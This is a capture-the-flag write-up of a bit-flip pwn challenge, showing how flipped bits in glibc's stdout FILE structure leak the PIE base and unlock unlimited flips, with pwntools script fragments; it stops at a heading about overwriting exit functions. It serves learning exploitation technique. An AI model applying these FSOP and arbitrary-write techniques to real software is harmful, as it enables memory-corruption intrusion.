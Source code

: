 I did not solve this challenge but I decided to look back at it because I wanted to learn FSOP and overwriting exit funcs with one gadget.

## Challenge

This challenge provides us with 4 bit flips, and our addresses are calculated at an offset from `_IO_2_1_stdin_`. The path to a solution, as with many other bit flip challenges, is to first get infinite bit flips for arbitrary write. The bit flip counter is stored in the base program’s bss, but PIE is enabled. Our goal should be to leak the base address before our 4th bit flip so that we can overwrite the counter. The flip being relative to stdin hints that we will need some form of leak-oriented FSOP. (https://enzo.run/posts/lactf2024/#flipma)

```
stdout = 0xd20
write_base = stdout + 0x20
read_end = stdout + 0x10
```

First we will calculate the location of `_IO_2_1_stdin_` and its fields.

```
sla(b"a: ", "9")
sla(b"b: ", "9")
```

For this to work, we also need to make sure the _IO_CURRENTLY_PUTTING flag is set, and I initially thought we needed to use a bit flip on this, but just initializing stdout with an additional puts before the flips also works.

![image](https://github.com/user-attachments/assets/5da04128-6251-4532-99b4-1b853b01c373)

Next, we need to find a suitable location to leak the elf address. Using the search command in pwndbg, we can see there are 2 addresses in libc that contain the bytes of our elf section.

![image](https://github.com/user-attachments/assets/25c45ff4-9e6d-4f5b-8690-b90f8936ee96)

Unbuffered file streams hold libc addresses to themselves in the buffer fields.

![image](https://github.com/user-attachments/assets/5622ca66-3003-45b0-921e-33b93118e6c0)

The idea is to flip a bit in stdout->write_base `0x00007fd8a201a723` to become `0x00007fd8a2018723`. We can see that `0x7fd8a2018f4a 0xa4200000562941ac` will be located between the stdout->write_base and stdout->write_ptr.

but the file write function called from puts will treat the stream as buffered as long as there is a difference between _IO_write_base and _IO_write_ptr. This will cause the write function to print out memory from libc between those two addresses.

### Recap

To force flush the buffer with its contents:

- Ensure the _IO_CURRENTLY_PUTTING flag is set
- We need to set stdout->read_end = stdout->write_base
- Ensure stdout->write_ptr = stdout->write_end

So we will need to:

- Give an invalid index to make the program call puts with error message
- Change stdout->read_end and stdout->write_base to a location right before our leak location

```py
# _IO_write_base
sla(b"a: ", str(write_base+1))
sla(b"b: ", "5")

# _IO_read_end
sla(b"a: ", str(read_end+1))
sla(b"b: ", "5")
```

![image](https://github.com/user-attachments/assets/6829df7e-2dac-49aa-a274-27bc3c8d18ba)

After running the script above, we can see now in our IO File struct, our target is located between write_base and write_ptr.

```py
sla(b"a: ", "9")
sla(b"b: ", "9")

data = p.recvuntil(b"we're flipping bits, not burgers", timeout=1)
if len(data) < 100:
  print("failed")
  exit(1)

diff = 0x7f0c55badf4a - 0x00007f0c55bad723
elf_leak = u64(data[diff-2:diff+6])
exe.address = elf_leak - (0x55ff52d83020 - 0x55ff52d7f000)
li(f"exe addr @ {hex(exe.address)}")
```

![image](https://github.com/user-attachments/assets/ea0f0745-5cdb-45e4-a98e-669f0feeaecf)

We can find the offset of our leak by subtracting the leak location with the write_base.

```py
print(len(str(exe.sym["flips"] - libc.sym["_IO_2_1_stdin_"])))
print(hex(exe.sym["flips"] - libc.sym["_IO_2_1_stdin_"]))

## Make flip to big number
sla(b"a: ", str(exe.sym["flips"] - libc.sym["_IO_2_1_stdin_"]))
sla(b"b: ", "7")
```

![image](https://github.com/user-attachments/assets/428f0589-5f67-48c2-82e9-cbe7f4ac4124)

We have a lot more flips now.

### Overwrite the exit funcs to one gadget
